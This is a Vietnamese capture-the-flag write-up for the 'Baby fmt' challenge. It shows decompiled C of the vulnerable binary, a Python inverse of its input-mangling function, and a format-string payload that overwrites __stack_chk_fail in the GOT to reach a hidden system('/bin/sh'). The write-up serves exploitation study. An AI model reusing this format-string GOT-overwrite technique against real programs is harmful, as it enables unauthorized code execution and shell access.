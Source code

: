 # [Baby fmt - FPTU Hacking CTF 2022]
Code của em nó sau khi dịch ngược:
```C

void FUN_004015e4(void) {
    setvbuf(stdout, (char *)0x0, 2, 0);
    setvbuf(stdin, (char *)0x0, 2, 0);
    setvbuf(stderr, (char *)0x0, 2, 0);
    return;
}

void FUN_004012a8(char *param_1) {
    char cVar1;
    size_t sVar2;
    int local_10;

    sVar2 = strlen(param_1);
    for (local_10 = 0; local_10 < (int)sVar2; local_10 = local_10 + 1) {
        cVar1 = (char)local_10;
        if ((param_1[local_10] < 'a') || ('z' < param_1[local_10])) {
            if ((param_1[local_10] < '0') || ('9' < param_1[local_10])) {
                if ((param_1[local_10] < 'A') || ('Z' < param_1[local_10]))
                {
                    if ((param_1[local_10] == '%') && (param_1[local_10] == '$'))
                    {
                        param_1[local_10] = param_1[local_10] + cVar1 + (char)(local_10 / 7) * -7;
                    }
                }
                else
                {
                    param_1[local_10] = '\0';
                }
            }
            else if ((int)param_1[local_10] + local_10 % 7 < 0x3a) {
                param_1[local_10] = param_1[local_10] + cVar1 + (char)(local_10 / 7) * -7;
            }
            else {
                param_1[local_10] = cVar1 + (char)(local_10 / 7) * -7 + param_1[local_10] + -10;
            }
        }
        else if ((int)param_1[local_10] + local_10 % 7 < 0x7b) {
            param_1[local_10] = param_1[local_10] + cVar1 + (char)(local_10 / 7) * -7;
        }
        else {
            param_1[local_10] = cVar1 + (char)(local_10 / 7) * -7 + param_1[local_10] + -0x1a;
        }
    }
    return;
}

void FUN_00401216(void) {
    char *pcVar1;
    long in_FS_OFFSET;
    char local_78[104];
    long local_10;

    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    puts("Tell me some funny things!");
    fgets(local_78, 0x78, stdin);
    pcVar1 = strstr(local_78, "funny");
    if (pcVar1 != (char *)0x0) {
        FUN_004012a8(local_78);
        printf(local_78);
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return;
}

undefined8 FUN_00401649(void) {
    FUN_004015e4();
    FUN_00401216();
    return 0;
}
```

Nhìn thì biết là format string bình thường, cơ mà payload được đưa qua một hàm làm biến đổi nó thành cái gì đó khác. Tức là phải viết được một cái hàm có chức năng ngược lại cái hàm kia bằng python. Nó khiến mình đau khổ vì đang ốm mà cứ bị bắt lập trình mấy cái lằng nhằng. Đây là đoạn code làm ngược của mình:
```python
def case1(temp, local_10):
    # import pdb; pdb.set_trace()
    if ((temp < ord('a')) or (ord('z') < temp)):
        if ((temp < ord('0')) or (ord('9') < temp)):
            if ((temp < ord('A')) or (ord('Z') < temp)):
                if ((temp == ord('%')) and (temp == ord('$'))):
                    return True
            else:
                return False
        elif (temp + (local_10 % 7) < 0x3a):
            return True
        else:
            return False
    elif (temp + (local_10 % 7) < 0x7b):
        return True
    else:
        return False

def case2(temp, local_10):
    if ((temp < ord('a')) or (ord('z') < temp)):
        if ((temp < ord('0')) or (ord('9') < temp)):
            if ((temp < ord('A')) or (ord('Z') < temp)):
                if ((temp == ord('%')) and (temp == ord('$'))):
                    return False
            else:
                return False
        elif (temp + (local_10 % 7) < 0x3a):
            return False
        else:
            return True
    elif (temp + (local_10 % 7) < 0x7b):
        return False
    else:
        return False

def case3(temp, local_10):
    if ((temp < ord('a')) or (ord('z') < temp)):
        if ((temp < ord('0')) or (ord('9') < temp)):
            if ((temp < ord('A')) or (ord('Z') < temp)):
                if ((temp == ord('%')) and (temp == ord('$'))):
                    return False
            else:
                return False
        elif (temp + (local_10 % 7) < 0x3a):
            return False
        else:
            return False
    elif (temp + (local_10 % 7) < 0x7b):
        return False
    else:
        return True

def case4(temp, local_10):
    if ((temp < ord('a')) or (ord('z') < temp)):
        if ((temp < ord('0')) or (ord('9') < temp)):
            if ((temp < ord('A')) or (ord('Z') < temp)):
                if ((temp == ord('%')) and (temp == ord('$'))):
                    return False
            else:
                return True
        elif (temp + (local_10 % 7) < 0x3a):
            return False
        else:
            return False
    elif (temp + (local_10 % 7) < 0x7b):
        return False
    else:
        return False

def FUN_004012a8(param_1):
    # param_1 = [ord(i) for i in param_1]
    param_1 = b'fvpqc' + param_1
    result = []
    for local_10 in range(len(param_1)):
        cVar1 = local_10 & 0xff
        temp = (param_1[local_10] - (cVar1 + ((local_10 // 7) * -7))) & 0xff
        if case1(temp, local_10):
            result.append(temp)
            continue

        temp = (param_1[local_10] - (cVar1 + ((local_10 // 7) * -7) - 10)) & 0xff
        if case2(temp, local_10):
            result.append(temp)
            continue

        temp = (param_1[local_10] - (cVar1 + ((local_10 // 7) * -7) - 0x1a)) & 0xff
        if case3(temp, local_10):
            result.append(temp)
            continue

        temp = 0
        if case4(temp, local_10):
            result.append(temp)
            continue

        result.append(param_1[local_10])

    return b'funny'+b''.join([i.to_bytes(1, 'little') for i in result])[5:]
```
Ok xong rồi mình đi theo hướng exploit format string như viết ROP lên stack, nhưng trong quá trình làm phát hiện ra có hàm `system` trong GOT. Linh tính mách bảo mình `strings` nó thứ xem thì tìm thấy luôn cả `/bin/sh` trong binary. Lục tìm trong Ghidra thì đúng là có hàm `system("/bin/sh")` thật. Tại vì symbols bị strip hết nên mình cũng không biết, làm phí mất 30 phút mình đi theo hướng ROP.

Dùng format string để ghi đè `__stack_chk_fail@got` thành hàm mục tiêu, đoạn payload đó dài 0x6f để nó ghi đè Canary luôn
```python
payload = (f'%{0x15cd-5}c%10$hn'.encode().ljust(0x20-5, b'\0') + \
        p64(bin.got['__stack_chk_fail'])).ljust(0x6f-5, b'\0')
```
Tại sao lại phải trừ 5, vì để chừa chỗ cho chữ *funny* ở đầu.
